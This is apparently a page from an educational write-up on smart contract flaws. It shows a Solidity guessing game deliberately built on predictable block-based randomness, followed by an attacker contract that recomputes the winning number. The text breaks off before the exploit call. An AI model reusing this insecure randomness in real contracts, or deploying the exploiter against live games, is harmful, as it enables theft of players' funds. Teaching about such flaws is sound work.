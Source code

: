 **Vulnerable Solidity Code Snippet (Guessing Game ^47^):**

Solidity

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

contract InsecureRandomNumberGame {
    event GameResult(address indexed player, uint guess, uint randomNumber, bool won);

    constructor() payable {} // To fund the contract for prizes

    function play(uint256 _guess) external payable {
        require(msg.value == 0.1 ether, "Game cost is 0.1 Ether");
        require(_guess < 100, "Guess must be between 0 and 99");

        // Insecure randomness generation using block variables
        bytes32 pseudoRandomSeed = keccak256(abi.encodePacked(
            blockhash(block.number - 1), // Hash of the previous block (known when current block is formed)
            block.timestamp,             // Timestamp of the current block (influenceable by validator)
            msg.sender                   // Address of the player (known)
        ));
        uint256 randomNumber = uint256(pseudoRandomSeed) % 100; // Result between 0 and 99

        if (randomNumber == _guess) {
            // Winner takes the contract's balance (simplified prize mechanism)
            payable(msg.sender).transfer(address(this).balance);
            emit GameResult(msg.sender, _guess, randomNumber, true);
        } else {
            emit GameResult(msg.sender, _guess, randomNumber, false);
        }
    }
    receive() external payable {}
}

// Attacker Contract [47]
contract RandomnessExploiter {
    InsecureRandomNumberGame public gameContract;
    address payable public owner;

    constructor(address _gameAddress) {
        gameContract = InsecureRandomNumberGame(_gameAddress);
        owner = payable(msg.sender);
    }

    // Attacker (validator or sophisticated user) calls this function
    function attemptExploit() external payable {
        require(msg.value == 0.1 ether, "Send 0.1 ETH to cover game cost");

        // Attacker computes the exact same "random" number off-chain or in this contract.
        // This is most effective if the attacker is a validator, as they control/know block.timestamp
        // and can ensure block.number-1 is as expected.
        bytes32 predictedSeed = keccak256(abi.encodePacked(
            blockhash(block.number - 1),
            block.timestamp,
            address(this) // msg.sender for the gameContract.play call will be this contract's address
        ));
        uint256 predictedNumber = uint256(predictedSeed) % 100;

        // The attacker calls play() with the predicted winning number.
```
